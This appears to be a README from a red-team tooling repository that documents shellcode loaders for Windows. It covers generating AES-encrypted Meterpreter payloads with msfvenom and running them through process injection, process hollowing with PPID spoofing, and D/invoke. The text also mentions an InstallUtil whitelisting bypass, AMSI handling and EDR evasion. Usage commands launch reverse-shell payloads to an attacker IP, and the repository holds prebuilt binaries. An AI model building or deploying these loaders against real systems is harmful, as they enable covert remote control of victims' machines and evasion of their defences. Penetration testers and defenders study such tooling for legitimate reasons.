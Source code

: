 # Loaders - Shellcode

## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `powershell/Powerinject.py` | PS | Python3 script to generate .PS1 payloads that perform process injection. |
| `powershell/Powerhollow.py` | PS | Python3 script to generate .PS1 payloads that perform process hollowing with PPID spoofing |
| `formatters/port_ipeggs.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Powerinject` & `Powerhollow` |
| `bins/x64_met_staged_reversetcp_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversetcp_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer) |
| `bins/x64_met_staged_reversehttps_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversehttps_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer)  |
| `D_invoke/` | EXE | C# project that produces [D/invoke](https://github.com/TheWover/DInvoke) payloads |
| `formatters/formatshellcode.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Builder.exe` |

## [clinject](./clinject/Program.cs) and [clhollow](./clhollow/Program.cs)

These are C# projects that have been modified in order to accept command line `Lhost`, `Lport`, and processes for targeting.  This allows a user to drop the payload on whatever target machine without worry of needing to re-roll shellcode if the attackers IP changes, or the payload needs to be pointed at a different machine in order to hit a tunnel and egress the network.

This was accomplished by using Msfvenom to create shellcode and then locating the IP and port that was specified in the msfvenom command within the output shellcode.  These bytes were replaced with unique identifier strings.  This process was accomplished with the [Port_ipeggs.py](./formatters/portip_eggs.py) script, which finds the hex bytes for the specified IP/PORT combo in a `msfvenom -f csharp` output file and replaces them with `0x11,0x11,0x11,0x11` and `0x22,0x22` respectively.  

This shellcode was then AES encrypted and placed in the C# project.  On run time, the shellcode is decrypted and then the IP and port given by the attacker is converted to hex and placed in the proper location wthin the decyrpted shellcode as marked by the unique identifer strings.

> TODO: Original author notes that `port_ipeggs.py` "Does not work with all payloads. Confirmed works with reverse_tcp, confirmed DOES NOT work with HTTPS". This could be why the HTTPs payloads in `/bins/` don't work. FIX.

### clinject Usage
C# project source code for (IP + port + process) cli passed process injection payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clinject.exe 192.168.1.198 443 explorer
```

### clhollow Usage

C# project source code for (IP + port + process + parent-process) cli passed process hollowing payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clhollow.exe 192.168.1.198 443 c:\\windows\\system32\\svchost.exe explorer 
```

## [D_invoke](./D_invoke/Builder/Program.cs)

C# project that produces D/invoke payloads (basic, injector, hollower + ppid spoof) in exe, dll, or service exe format.  Use pre-built builder.exe in the D_Invoke directory.

This is a package built using TheWover's project and research as the foundation (https://github.com/TheWover/DInvoke, https://thewover.github.io/Dynamic-Invoke/).

The inspiration for this project was to simplify the process of generating compiled C# payloads.  By using this project, a user never need open visual studio when creating payloads.

### General Usage Steps

1. Generate shellcode
    - This was built with msfvenom shellcode in c# as the primary input, however it was retooled to take .bin files during some testing with CobaltStrike
    - i.e. it takes C# & binary input
2. Format the shellcode for use with `Builder.exe` using the [formatshellcode.py](./formatters/formatshellcode.py) script (for msfvenom shellcode)
3. Transfer formatted shellcode to your Windows dev machine
4. Run builder.exe with the proper switches
5. Voila. You have your AES encryped shellcode D/invoke payload in whatever format and technique you want!

### Details 

The foundation of this package is `Builder.exe`.  This application allows the user to specify several options to include:

1. Format of payload (`/F:`)
    - EXE, DLL, OR Service EXE
2. Technique (`/T:`)
    - Local injection
    - Remote injection
    - Process hollowing with PPID spoofing
3. Shellcode file (`/S:`)
    - File containing parsed shellcode
4. Process name (`/P:`)
    - Process to corrupt for injection
        - Must be pretty name, e.g. `explorer`
    - Process to spawn for hollowing
        - Must be absolute path, e.g. `c:\\windows\\system32\\svchost.exe` (escape backslashes)
5. Parent Process (`/X:`)
    - Process for PPID spoofing with process hollowing technique
        - Must be pretty name, e.g. `explorer`
6. Architecture (`/A:`)
    - x86 OR x64

After the user specifies all the above options, a "`template.cs`" file within the selected format project (exe, dll, service) will be edited and the payload pieced together.  `Builder.exe` has hardcoded within it the necessary code for the various options (d/invoke statements for hollowing w/ ppid spoofing for example) that will be placed into the template file in the proper manner in the given format (exe, dll, service exe).

Builder will AES-256 encrypt the shellcode (*generating a new key and IV each time it is run*) and embed the encrypted shellcode within the template file. Once the template file is complete, it will be saved over `program.cs` in the respective format project.  MSBuild will then be called on the updated `program.cs` file in order to create the final payload in exe, dll, or service exe format.

### Limitations

The produced payloads use D/invoke statements for most, *but not all* of the API calls. Certain simple ones (As well as certain complex ones in the process hollowing payload) still use `p/invoke`. An `Installutil` bypass is baked into each *.exe* payload for use in case application whitelisting is in place.

Additionally, direct *syscalls* have not been implemented in this project. It is maybe a direction for further work. However given that certain EDR's don't even hook userland syscalls anymore, I haven't done this yet as I need to do more research on the correct direction to go in the future. 

Note that this tool was developed for personal use, not production.  As such there are some shortcomings in that there are hardcoded paths where `Builder.exe` expects to find things:
1. `Builder.exe` should only be run from within the d/invoke folder
    - i.e. `builder.exe` should be in the same folder as the dll, exe, and service folders as it is on the hosted repo
2. Additionally, MSBuild is hardcoded for VS2019
    - If you are utilizing a different version, you will need to edit the source code of `Builder.exe` and update it with the path to MSBuild within your version.

## [powerhollow.py](./powershell/powerhollow.py) and [powerinject.py](./powershell/powerinject.py)

> TODO: Currently break when AMSI not being used on target. FIX.

These python scripts call `msfvenom` to generate shellcode, AES encrypt it, and then embed it within hardcoded powershell code in order to dynamically produce *.PS1* payloads according to user supplied options.  These *.PS1* payloads are modeled after the OSEP *.PS1* that utilizes dynamic lookup rather than `add-type` in order to prevent writing to disk when calling `csc`.  

`Powerinject.py` payloads succeed here; however I was unable to find a way to define the structs necessary for doing PPID spoofing with Process hollowing, so **add-type IS called in the `Powerhollow.py`** *.PS1* payloads, however this is only done for the necessesary structs and the `createproces()` Win32API. All other required API's are resolved dynamically.

Run the appropriate python script for the kind of payload you want to use and then place the produced files in your webserver directory and use the supplied PS one liner in order to call them.

## `/bins/`

This directory just holds precompiled binaries created with the `clhollow` and `clinject` projects using `windows/x64/meterpreter/reverse_https` and `windows/x64/meterpreter/reverse_tcp` payloads.
